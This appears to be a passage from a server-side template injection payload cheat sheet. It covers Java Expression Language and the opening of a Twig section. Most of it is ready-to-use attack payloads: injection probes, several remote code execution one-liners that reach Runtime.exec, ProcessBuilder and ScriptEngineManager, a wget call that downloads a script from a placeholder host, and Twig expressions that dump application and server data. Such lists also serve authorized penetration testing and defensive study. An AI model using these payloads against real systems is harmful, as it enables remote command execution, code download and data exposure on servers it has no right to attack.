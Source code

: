 ## Expression Language EL

### Expression Language EL - Basic injection

    ${1+1} 
    #{1+1}

### Expression Language EL - Code Execution

    // Common RCE payloads
    ''.class.forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec(<COMMAND STRING/ARRAY>)
    ''.class.forName('java.lang.ProcessBuilder').getDeclaredConstructors()[1].newInstance(<COMMAND ARRAY/LIST>).start()

    // Method using Runtime
    #{session.setAttribute("rtc","".getClass().forName("java.lang.Runtime").getDeclaredConstructors()[0])}
    #{session.getAttribute("rtc").setAccessible(true)}
    #{session.getAttribute("rtc").getRuntime().exec("/bin/bash -c whoami")}

    // Method using processbuilder
    ${request.setAttribute("c","".getClass().forName("java.util.ArrayList").newInstance())}
    ${request.getAttribute("c").add("cmd.exe")}
    ${request.getAttribute("c").add("/k")}
    ${request.getAttribute("c").add("ping x.x.x.x")}
    ${request.setAttribute("a","".getClass().forName("java.lang.ProcessBuilder").getDeclaredConstructors()[0].newInstance(request.getAttribute("c")).start())}
    ${request.getAttribute("a")}

    // Method using Reflection & Invoke
    ${"".getClass().forName("java.lang.Runtime").getMethods()[6].invoke("".getClass().forName("java.lang.Runtime")).exec("calc.exe")}

    // Method using ScriptEngineManager one-liner
    ${request.getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("js").eval("java.lang.Runtime.getRuntime().exec(\\\"ping x.x.x.x\\\")"))}

    // Method using ScriptEngineManager
    ${facesContext.getExternalContext().setResponseHeader("output","".getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("JavaScript").eval(\"var x=new java.lang.ProcessBuilder;x.command(\\\"wget\\\",\\\"http://x.x.x.x/1.sh\\\");org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\"))}

## Twig

### Twig - Basic injection

    {{7*7}}
    {{7*'7'}} would result in 49
    {{dump(app)}}
    {{app.request.server.all|join(',')}}
